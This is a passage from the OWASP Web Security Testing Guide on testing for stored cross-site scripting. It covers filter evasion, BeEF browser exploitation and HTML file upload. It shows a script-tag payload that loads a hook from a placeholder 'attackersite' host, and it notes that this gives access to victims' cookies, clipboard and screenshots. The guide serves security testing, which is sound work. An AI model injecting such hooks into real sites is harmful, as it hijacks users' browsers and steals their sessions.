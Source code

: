 > The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string “SCRIPT” is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see [testing for reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)) chapter). It is strongly recommended that testers refer to [XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) and [Mario](https://cybersecurity.wtf/encoder/) XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information.

#### Leverage Stored XSS with BeEF

Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as [BeEF](https://www.beefproject.com) and [XSS Proxy](http://xss-proxy.sourceforge.net/).

A typical BeEF exploitation scenario involves:

-   Injecting a JavaScript hook which communicates to the attacker’s browser exploitation framework (BeEF)
-   Waiting for the application user to view the vulnerable page where the stored input is displayed
-   Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

**Example**: BeEF Injection in `index2.php`:

```
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

When the user loads the page `index2.php`, the script `hook.js` is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

> ![Beef Injection Example](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/images/RubyBeef.png)  
> _Figure 4.7.2-3: Beef Injection Example_
> 
> This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

#### File Upload

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.

Consider the following HTTP POST request for file upload:

```
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```
